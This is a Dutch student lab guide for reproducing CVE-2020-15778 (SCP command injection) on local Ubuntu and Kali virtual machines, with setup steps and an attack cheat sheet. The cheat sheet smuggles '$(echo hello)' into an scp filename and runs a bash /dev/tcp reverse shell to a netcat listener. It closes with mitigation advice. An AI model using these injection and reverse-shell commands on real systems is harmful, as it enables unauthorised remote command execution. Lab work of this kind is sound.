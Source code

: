# NPE Cybersecurity and virtualisation | CVE-2020-15778

Gilles De Meerleer, Yana Cattoir en David Bukasa Ntunu

Github repository van deze opdracht: <https://github.com/DeMeerleerGilles/NPE-Cybersecurity>

## Opzetten van de omgeving

In deze handleiding wordt uitgelegd hoe je de omgeving voor het project kunt opzetten. De omgeving wordt opgezet met behulp van Vbox manage.

## Stap 1: Download de benodigde software en bestanden

1. Download de Ubuntu server VDI (20.04.4) van OSboxes <https://sourceforge.net/projects/osboxes/files/v/vb/59-U-u-svr/20.04/20.04.4/64bit.7z/download> en de Kali VDI (2024.4) <https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2024.4/64bit.7z/download>

2. Pak deze zips uit en plaats de VDI's in een map naar keuze. Voor het gemak kun je de VDI's in de map van VirtualBox VMs plaatsen.
   Deze staat standaard in `C:\Users\gebruikersnaam\VirtualBox VMs`.

3. Kopieer het pad naar de map waarin je de VDI hebt geplaatst. In Windows kun je dit eenvoudig doen door de VDI te selecteren en op Ctrl + Shift + C te drukken. Dit kopieert het pad naar het bestand.

4. Daarnaast heb je de `src` map van deze repository nodig. Deze map bevat alle configuratiebestanden die nodig zijn om de omgeving op te zetten. Maak dus een clone van deze repository.

## Stap 2: Pas de variabelen aan in de scripts "server-setup.ps1" en "kali-setup.ps1"

Om de scripts te kunnen gebruiken, moet je de volgende variabelen aanpassen:

```powershell
$mediumLocation = "C:\Users\gille\VirtualBox VMs\Ubuntu Server 20.04.4 (64bit).vdi"  # Pad waar de virtuele schijf wordt opgeslagen
```

## Stap 3: Voer de scripts uit

Eens alle paden zijn ingesteld, kun je de scripts uitvoeren.

```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process # Enkel nodig als je een beveiligingsfout krijgt
.\server-setup.ps1
.\kali-setup.ps1
```

De scripts zullen nu de omgeving opzetten. Dit kan enkele minuten duren.

Log in op de VM's met de volgende gegevens:

username: `osboxes`
password: `osboxes.org`

```bash
# Intaller nu ssh op de server
sudo apt update
sudo apt install openssh-server
sudo systemctl enable --now ssh

# Vraag het ip adres op van de server
ip a
```

Verbind nu vanaf je host machine met de server via ssh. Dit kan met de volgende opdracht:

```bash
ssh osboxes@<ip-adres-van-server>
```

Kopieer het installatie script "install.sh" naar de server met scp of WinSCP (pas het ip adres aan naar het ip adres van de server):

```bash
scp install.sh osboxes@192.168.0.226:/home/osboxes
```

Controlleer of het script goed is aangekomen met de volgende opdracht:

```bash
osboxes@osboxes:~$ ls
install.sh
```

Maak het script uitvoerbaar met de volgende opdracht:

```bash
chmod +x install.sh
```

Voer het script uit met de volgende opdracht:

```bash
sudo ./install.sh
```

## Cheat sheet voor de aanval

Stap 1: Controleer of de VM's met elkaar kunnen communiceren

```bash
ping 192.168.0.226
PING 192.168.0.226 (192.168.0.226) 56(84) bytes of data.
64 bytes from 192.168.0.163: icmp_seq=1 ttl=64 time=16.1 ms
64 bytes from 192.168.0.163: icmp_seq=2 ttl=64 time=7.04 ms
64 bytes from 192.168.0.163: icmp_seq=3 ttl=64 time=7.80 ms
64 bytes from 192.168.0.163: icmp_seq=4 ttl=64 time=7.78 ms
64 bytes from 192.168.0.163: icmp_seq=5 ttl=64 time=8.33 ms
```

SCP command injection

```bash
scp test.txt osboxes@192.168.0.226:/tmp/$(echo hello)

osboxes@192.168.0.163's password:
test.txt                                                                                                                                                   100%    0     0.0KB/s   00:00
```

Resultaat: er verschijnt een bestand hello op de server in /tmp, aangemaakt door de injectie.

```bash
osboxes@osboxes:/tmp$ ls
hello
```

## Reverse shell via netcat

We kunnen nog een beetje verdergaan en een reverse shell opstarten via netcat. Dit doen we door misbruik te maken van de command injection in ssh.

Start een netcat listener op de aanvaller machine

```bash
nc -lvnp 4444
```

Reverse shell via SSH

```bash
ssh osboxes@192.168.0.226 'bash -i >& /dev/tcp/192.168.0.121/4444 0>&1'
```

De reverse shell is nu geopend in het terminal venster waar de listener draait. Je kunt nu commando's uitvoeren op de server via de reverse shell.

## Hoe werkt het?

- SCP werkt door een commando scp -t <bestandsnaam> uit te voeren op de remote host om bestanden te ontvangen.

- De bestandsnaam wordt niet gesanitiseerd waardoor shell-injectie via backticks of $(...) mogelijk is.

- Dit is een authenticated exploit: je moet wel over geldige SSH-credentials beschikken.

## Waarom is het belangrijk om je servers te beschermen?

- Veel systemen gebruiken SCP nog steeds voor bestanden overzetten.

- Kwaadwillenden met toegang kunnen zo eenvoudig commando’s uitvoeren op de server.

- OpenSSH adviseert over te stappen op veiligere alternatieven zoals rsync of sftp.